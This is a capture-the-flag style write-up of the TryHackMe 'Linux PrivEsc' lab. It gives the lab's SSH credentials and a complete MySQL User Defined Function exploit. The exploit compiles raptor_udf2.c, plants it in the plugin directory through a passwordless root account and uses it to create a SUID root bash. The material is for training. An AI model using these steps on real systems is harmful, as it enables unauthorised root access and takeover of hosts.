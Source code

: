 # Linux PrivEsc Writeup

Hatami Ra'is Bukhari (Althemier)

[Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)

# [Task 1] Deploy the VUlnerable Debian VM

'user:password321'

## 1. Deploy the machine and login to the "user" account using SSH.

```
ssh user@TARGET_IP
```

Password = 'password321'

## 2. Run the "id" command. What is the result?

```
id
```

Output
```
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

# [Task 2] Service Exploits


> **NOTE**

> This part is copy-paste from the room it self


The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

```
cd /home/user/tools/mysql-udf
```

Compile the raptor_udf2.c exploit code using the following commands:

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

```
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```
/tmp/rootbash -p
```

** Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room! **

```
rm /tmp/rootbash
exit
```